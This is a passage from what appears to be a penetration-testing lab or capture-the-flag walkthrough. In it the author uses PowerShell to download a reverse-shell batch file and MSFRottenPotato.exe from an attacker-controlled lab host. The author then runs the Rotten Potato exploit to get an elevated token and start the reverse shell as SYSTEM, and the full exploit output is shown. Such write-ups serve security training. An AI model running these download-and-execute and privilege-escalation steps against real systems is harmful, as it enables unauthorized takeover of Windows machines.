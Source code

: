 So, from our low priv shell, grab the files:

```

PS C:\temp> (new-object net.webclient).downloadfile('http://10.10.14.14:8083/rev.bat', 'C:\temp\rev.bat')
PS C:\temp> (new-object net.webclient).downloadfile('http://10.10.14.14:8083/MSFRottenPotato.exe', 'C:\temp\lp.exe')

```

Now, with a listener going, run it:

```

PS C:\temp> c:\temp\lp.exe * \temp\rev.bat
connect sock
CreateIlok: 0 0
start RPC  connection
CreateDoc: 0 0
COM -> bytes received: 116
RPC -> bytes Sent: 116
RPC -> bytes received: 84
COM -> bytes sent: 84
COM -> bytes received: 24
RPC -> bytes Sent: 24
RPC -> bytes received: 132
COM -> bytes sent: 132
COM -> bytes received: 127
RPC -> bytes Sent: 127
RPC -> bytes received: 196
COM -> bytes sent: 196
COM -> bytes received: 243
RPC -> bytes Sent: 243
RPC -> bytes received: 192
COM -> bytes sent: 192
COM -> bytes received: 72
RPC -> bytes Sent: 72
RPC -> bytes received: 60
COM -> bytes sent: 60
COM -> bytes received: 42
RPC -> bytes Sent: 42
RPC -> bytes received: 56
COM -> bytes sent: 56
CoGet: -2147022986 0
[+] authresult != -1
[+] Elevated Token tye:2
[+] DuplicateTokenEx :1  0
[+] Duped Token type:1
[+] Running \temp\rev.bat sessionId 1
[+] CreateProcessWithTokenW OK
Auth result: 0
Return code: 0
Last error: 0

```
